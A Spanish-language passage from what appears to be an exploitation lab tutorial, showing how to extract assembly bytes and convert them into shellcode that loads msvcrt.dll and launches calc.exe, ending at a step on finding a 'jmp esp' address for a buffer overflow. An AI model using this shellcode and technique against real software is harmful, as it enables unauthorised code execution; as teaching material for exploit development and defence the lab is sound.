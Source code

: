 1. Averiguar cuándo empieza el código de ensamblador.
2. Extraer todo ese código y transformarlo a Byte.


### Extraer el código ensamblador

Se sabe que $\texttt{push ebp}$ (la primera línea del código ensamblador) se traduce como $\texttt{0x55, 0x8b}$, por lo que se busca dicho patrón de cadena y se extrae visualizando el contenido del fichero anterior.

Esas direcciones se pueden obtener a través del comando $\texttt{objdump}$ de Linux, a través de la carpeta compartida de Vagrant de la Máquina Virtual. Usando dicho comando se puede observar dichas direcciones y una vez encontradas, filtrarlas en el fichero hexadecimal obtenido en la sección anterior.

Una vez filtrado el contenido, se obtiene un resultado parecido al siguiente:

```text
                                                      0x55, 0x8b, 0xec,
0x33, 0xff, 0x57, 0x83, 0xec, 0x0c, 0xc6, 0x45, 0xf5, 0x6d, 0xc6, 0x45,
0xf6, 0x73, 0xc6, 0x45, 0xf7, 0x76, 0xc6, 0x45, 0xf8, 0x63, 0xc6, 0x45,
0xf9, 0x72, 0xc6, 0x45, 0xfa, 0x74, 0xc6, 0x45, 0xfb, 0x2e, 0xc6, 0x45,
0xfc, 0x64, 0xc6, 0x45, 0xfd, 0x6c, 0xc6, 0x45, 0xfe, 0x6c, 0x8d, 0x45,
0xf5, 0x50, 0xbb, 0x7b, 0x1d, 0x80, 0x7c, 0xff, 0xd3,
                                                      0x55, 0x8b, 0xec,
0x33, 0xff, 0x57, 0x83, 0xec, 0x08, 0xc6, 0x45, 0xf7, 0x63, 0xc6, 0x45,
0xf8, 0x61, 0xc6, 0x45, 0xf9, 0x6c, 0xc6, 0x45, 0xfa, 0x63, 0xc6, 0x45,
0xfb, 0x2e, 0xc6, 0x45, 0xfc, 0x65, 0xc6, 0x45, 0xfd, 0x78, 0xc6, 0x45,
0xfe, 0x65, 0x8d, 0x45, 0xf7, 0x50, 0xbb, 0xc7, 0x93, 0xc2, 0x77, 0xff,
0xd3
```

Este es el código de la Shellcode, pero previamente debe transformarse a Byte.


#### Transformar el código a Byte

1. Se cambian los `0x` por `\x`.
2. Se eliminan los `espacios` y `\n`.

```text
                                    \x55\x8b\xec
\x33\xff\x57\x83\xec\x0c\xc6\x45\xf5\x6d\xc6\x45
\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45
\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45
\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45
\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3
                                    \x55\x8b\xec
\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45
\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45
\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45
\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff
\xd3
```


## Paso 04: dirección de salto $\texttt{jmp esp}$
